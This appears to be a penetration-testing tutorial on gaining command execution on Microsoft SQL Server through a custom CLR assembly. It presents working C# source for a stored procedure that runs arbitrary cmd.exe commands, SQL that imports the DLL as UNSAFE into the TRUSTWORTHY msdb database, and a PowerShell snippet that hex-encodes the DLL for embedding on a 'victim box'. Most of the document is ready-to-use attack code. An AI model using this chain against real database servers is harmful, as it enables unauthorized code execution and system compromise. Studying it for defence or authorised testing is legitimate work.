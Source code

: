 ## The Assembly
If a database has the TRUSTWORTHY property set, it's possible to use the [_CREATE ASSEMBLY_](https://docs.microsoft.com/en-us/sql/t-sql/statements/create-assembly-transact-sql?view=sql-server-ver15) statement to import a managed DLL as an object inside the SQL server and execute methods within it.

We'll start building our c# dll.

We Create a method (cmdExec) that must be stored as a procedure:
```C#
[Microsoft.SqlServer.Server.SqlProcedure]
```
We are going to write code that starts a command prompt and executes the command given inside the _execCommand_ argument

The [_Process_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process?view=netframework-4.8) class is used to start a process while allowing us to supply arguments through the [_StartInfo_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.startinfo?view=netframework-4.8) property.
We also use [_FileName_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.filename?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_FileName) and [_Arguments_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.arguments?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_Arguments) properties of _StartInfo_ to specify "cmd.exe" and the command to execute respectively.
[_UseShellExecute_]() is set to "false" to ensure that the command prompt is created directly from cmd.exe.
[_RedirectStandardOutput_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.processstartinfo.redirectstandardoutput?view=netframework-4.8#System_Diagnostics_ProcessStartInfo_RedirectStandardOutput) to "true" so the output from the command prompt does not get printed to the console, but stored in a pipe instead.

```C#
Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
```
Calling the [_Start_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.start?view=netframework-4.8) method creates the process and executes the command supplied 
in the _execCommand_ argument.

Any output generated as a result of the command line input is not sent to the console, but we can retrieve it using the [_Pipe_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlcontext.pipe?view=netframework-4.8) property of the [_SqlContext_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlcontext?view=netframework-4.8) class.
The _Pipe_ property is actually an embedded object instantiated from the _SqlPipe_ [class](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsstart?view=netframework-4.8), which allows us to record SQL data and return it to the caller.
We use a combination of [_SendResultsStart_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsstart?view=netframework-4.8), [_SendResultsRow_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsrow?view=netframework-4.8), and [_SendResultsEnd_](https://docs.microsoft.com/en-us/dotnet/api/microsoft.sqlserver.server.sqlpipe.sendresultsend?view=netframework-4.8), to start recording, record data, and stop recording respectively.

```C#
SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
SqlContext.Pipe.SendResultsStart(record);
record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
SqlContext.Pipe.SendResultsRow(record);
SqlContext.Pipe.SendResultsEnd();
```
(The object used by these APIs to record data into is of type _SqlDataRecord_.)

To send the output from the command prompt to the SQL record, we copy the contents of the _Process_ object [_StandardOutput_](https://docs.microsoft.com/en-us/dotnet/api/system.diagnostics.process.standardoutput?view=netframework-4.8) property into the record.
This is then returned as part of the result set from the SQL query.

Finally, we force the cmd.exe process to wait until all actions are completed and subsequently close it.
Our final code will look something like so:

```C#
using System;
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();

        proc.WaitForExit();
        proc.Close();
    }
};
```

## The Console Application
Once we have compiled the code into a DLL, we have the assembly that we are going to load into the SQL server and execute.
We will be targeting msdb as it has TRUSTWORTHY property set by default.

We will enable [CLR Intergration](https://docs.microsoft.com/en-us/sql/relational-databases/clr-integration/clr-integration-enabling?view=sql-server-ver15) setting with sp_configure so we can create a stored procedure from an assembly.
We can now import the assembly with the _CREATE ASSEMBLY_ statement.
We must supply a custom assembly name, a file location, and specify the PERMISSION_SET to be UNSAFE to allow execution of unsigned .NET code.

```SQL
CREATE ASSEMBLY myAssembly FROM 'c:\tools\cmdExec.dll' WITH PERMISSION_SET = UNSAFE;
```

Once the DLL has been imported, we need to create a procedure based on the _cmdExe_ method with the _CREATE PROCEDURE_ statement.
we first specify the "CREATE PROCEDURE" statement followed by the name we want to assign to our custom procedure ([dbo].[cmdExec]) and the argument(s) it accepts "(@execCommand NVARCHAR (4000))" which will be executed when our procedure is invoked:

```SQL
CREATE PROCEDURE [dbo].[cmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly].[StoredProcedures].[cmdExec];
```
(The last half of the SQL query starts with the _AS_ keyword and then specifies the location of the C# method to create a procedure from)

As the final step, we invoke the newly-created procedure and supply an argument:
```SQL
EXEC cmdExec 'whoami'
```

Executing our c# console application, gives us code execution:

![](../../../Screenshots/ca-ms-ce.png)

However, realistically, we can't copy the assembly on the victim box.
It is possible to directly embed the assembly in the CREATE ASSEMBLY SQL query.
We will directly put a hexadecimal string containing the binary content of the assembly in the FROM clause instead of specifying the file path.

We use the following powershell commands to convert it:
```Powershell
$assemblyFile = "\\192.168.119.120\visualstudio\Sql\cmdExec\bin\x64\Release\cmdExec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder 

$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
    $stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
```

We can change our sql statement to the following:
```SQL
CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;
```

As a cleanup, we need to confirm that previous assembly and procedures in it have been dropped.
we use the following sql statements:
```SQL
DROP PROCEDURE cmdExec
DROP ASSEMBLY myAssembly --myassembly is the name of the assmebly
```

With this, we can execute the query with the embedded assembly and get code execution:
![](../../../Screenshots/rs-dc-ca.png)